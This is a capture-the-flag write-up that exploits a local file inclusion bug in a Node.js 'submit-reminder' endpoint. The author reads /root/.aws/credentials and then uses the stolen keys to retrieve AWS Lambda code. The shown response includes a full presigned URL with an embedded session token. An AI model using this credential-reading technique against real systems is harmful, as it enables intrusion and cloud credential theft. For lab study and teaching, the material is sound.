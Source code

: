 Opening the site, I am greeted with a login page. I tried some sql injection payloads but they were blocked by a blacklist. Hence, I wrote a quick python script to fuzz all allowed characters, and got: `"abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"`. Obviously, sql injection is not possible with only alphabets, so we need to find something else. I looked at the source code provided.

I saw there was a LFI vulnerability in server.js:

```javascript:server.js
app.post('/api/submit-reminder', (req, res) => {
    const username = req.body.username;
    const reminder = req.body.reminder;
    const viewType = req.body.viewType;
    res.send(pug.renderFile(viewType, { username, reminder }));
});
```

Looking at the Dockerfile, it seems that there is a aws config folder at `/root/.aws`. Hence, we can access the credentials by sending a post request to `/api/submit-reminder` with viewType as `/root/.aws/credentials`. This is the response:

![](/blind-sql-injection-0.png)

I set the credentials using `aws configure`.

To list the permissions available, I tried using the `getUserIamPermissions.sh` script from level 7, however it didn't work because the credentials did not have the necessary permissions.

However, there is a lambda function invocation of `craft_query` in the code, hence I deduced that I would be able to get the function. I ran `aws lambda get-function --function-name craft_query`. This returned a large json response with a link to the code:

```json
...

  "Code": {
    "RepositoryType": "S3",
    "Location": "https://awslambda-ap-se-1-tasks.s3.ap-southeast-1.amazonaws.com/snapshots/051751498533/craft_query-a989953b-8c24-41f0-ac22-813b4ca32bbc?versionId=JNLr5qtX.LFHg63fpryY.eZVBru5aTvH&X-Amz-Security-Token=IQoJb3JpZ2luX2VjECQaDmFwLXNvdXRoZWFzdC0xIkgwRgIhAPWbYE%2FW7LQeM1c%2BY6GZjL4i4%2BRBpUJOc1xIARN7vDOPAiEA83kkf81hFV2K4SfoFT2q70i2%2Bs95HxJ1cb7IuCAxb5AqwAUILRAEGgwyOTUzMzg3MDM1ODMiDMeA9zfqSUVUNA1frSqdBd5TVP2%2FlOom3eVELxgmxgyQLxQ7lr0CBpEg3lI%2B%2F5wILSzWB9E8BYSEuDSQOlYKArG6LE2jdXcEsXm2PGXe3pK%2F97GvZGOiIJrdVRfKVW9Y%2FZYerD1X6inPYz1u%2BmvVDhZZYzm7umrwNNOybY2A0GjXt7uUUxOy16Gy8GuZExynIEEYeC81%2BBMA6ieLn8osUGDDh%2BAfSj9vWV56YlKz2qI4DTNaz7%2BbVxCYLXr3sIL%2FPN%2BnXq1xF6M6sWbtFnYw58t6Duf5W1gBI%2BGp5EnDXlVbRQrTqo4A6xZVoTEe5B6iGNJq629qEjUZvah4lafSIqqV6MLnoSf5K1tLAJSvQmDGirbHx%2F6B85tC5gEfP9WZlFaKhdOoJWQBOypyu6LzfUld6TOK1ZssoJVED3p211j4mk4lCQp6trcRkPaWJnLGmH5YrJ40wmsWjcTQpM5JpIUWxNcDinWDlAP5cjwLpjk3sy5FExeRYH%2B6%2FRrR1NuJCevzOcXc1Xblnn%2FWNDM8I3GDxHAgRZLLyV3MiJkhmJLt0w4eSTAdOSnXskRzhJiwXu11yQAsbJIb58ZkXf3hHarIg6jgYMreSStiatH3bSRFtqEowEKPtMGwyMYgMNu4ZzQM%2Fc7GruI1aWQWgwrmwxTmaJTQ1k4mSVqCuKUxU%2F2KVmdoCeUq3%2F0yXGSMsWv30SH8tFVt4sSxFNQSHwrhaJBIaclVAbpRPkwxOwK04cC6oUOuzJBAfTZV7NIAW0rFcPelO1qnOFnGaXEA1P0TnEJ5ZAAsz7hnEi3GUM1PPYvdpN6FA2KbvDvU7i%2BKpFfiUA%2BTiRY0QbpeN9dXT9KDJrMDDjL4903hWqyQOEqLletQKQU%2Bmz%2FDm%2Bmtw6xOf8%2FGYdV4M3sNJu0VkQIJXDCJgPCoBjqwAdcXEkuE%2BsHOCZjSNqyj7Dx89h%2FbJO2Y%2Brtit8QmiInVu5rkvoIia9rrC%2FNUa3APGV1t1Iskn3NyxsywLXl1rkvC7ONpkrbfH%2FUwzxzxVVJ6fO76u9zsDdpZXg8MLWwzhOYb%2BtSG9FrJn4VwkMVr4MZmykXsKP%2BkeNBaYWdboV3R8vghydMTjNhG2kMSrcvDUSHT0DD7UckOH0wvN3xvRW97vk3phBssxvVpwWAzajN7&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20231003T124953Z&X-Amz-SignedHeaders=host&X-Amz-Expires=600&X-Amz-Credential=ASIAUJQ4O7LP4VD3LLND%2F20231003%2Fap-southeast-1%2Fs3%2Faws4_request&X-Amz-Signature=06d27d9e23c01d8a7e9ab9fb19dd185864028bd5ffa623ab301e5d471ba05f41"
  }

...
```
